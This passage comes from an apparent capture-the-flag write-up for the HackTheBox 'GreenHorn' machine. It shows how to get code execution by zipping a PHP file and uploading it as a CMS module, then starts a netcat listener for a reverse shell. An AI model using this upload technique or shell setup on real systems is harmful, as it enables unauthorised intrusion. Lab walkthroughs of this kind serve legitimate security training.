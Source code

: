 {% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ cat test.php 
<?php phpinfo(); ?>
```
{% endraw %}

<br />
When a exploit comes along, you must zip it.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ zip test.zip test.php
  adding: test.php (stored 0%)
```
{% endraw %}

<br />
Select options and click manage modules.

<div class="row justify-content-sm-center">
    <div class="col-sm-4 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/manage.png" title="Manage Modules" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Click on Install Module.  Select the test.zip and upload our new "module."

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/installtest.png" title="Install Test Module" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Notice that the function executed.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/phpinfo.png" title="PHP Info" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Start a netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ sudo nc -nlvp 443      
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}
